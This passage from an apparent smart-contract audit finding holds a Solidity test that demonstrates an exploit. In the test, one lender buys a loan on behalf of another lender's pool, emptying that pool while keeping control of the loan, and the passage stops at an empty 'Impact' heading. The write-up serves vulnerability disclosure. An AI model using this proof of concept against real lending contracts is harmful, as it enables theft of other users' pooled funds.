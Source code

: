 ```javascript
        (address loanLender, address loanBorrower, , , , , , , , ) = lender
            .loans(0);

        //loan is set up correctly where the loan lender is lender2 and loanBorrower is borrower
        assertEq(loanLender, lender2);
        assertEq(loanBorrower, borrower);

        //get the balances of poolId1 and poolId2
        (, , , , poolId1Balance, , , , ) = lender.pools(poolId1);
        (, , , , poolId2Balance, , , , ) = lender.pools(poolId2);

        //assert pool1's balance is the same while pool2 balance is - debt
        assertEq(1000 * 10 ** 18, poolId1Balance);
        assertEq(1000 * 10 ** 18 - b.debt, poolId2Balance);

        vm.startPrank(lender2);
        lender.startAuction(loanIds);
        //skip 1 seconds ahead
        vm.warp(block.timestamp + 1);

        //Buying the loan on behalf of poolId1 which is Lender1's pool. Msg.sender here is lender2
        lender.buyLoan(0, poolId1);

        (, , , , poolId1Balance, , , , ) = lender.pools(poolId1);
        (, , , , poolId2Balance, , , , ) = lender.pools(poolId2);

        //Lender2's pool balance is the same as what he started with
        //Lender1's pool balance is 0
        assertEq(0, poolId1Balance);
        assertEq(1000 * 10 ** 18, poolId2Balance);

        //Borrower has his loan and collateral tokens
        //995e18 and not 1000e18 because of fees
        assertEq(995 * 10 ** 18, TERC20(loanToken).balanceOf(borrower));
        assertEq(995 * 10 ** 18, TERC20(loanToken).balanceOf(borrower));

        //loanLender is still lender2
        (loanLender, , , , , , , , , ) = lender.loans(0);
        assertEq(loanLender, lender2);

        //Now both the borrower and lender2 have their tokens
        //The lender of the loan is still lender2
        //Which means lender1 can't startAuction for the borrower's loan, he can't give it, and he can't seize it - because he's not the lender
        vm.startPrank(lender1);
        vm.expectRevert();
        lender.startAuction(loanIds);
    }
```

## Impact

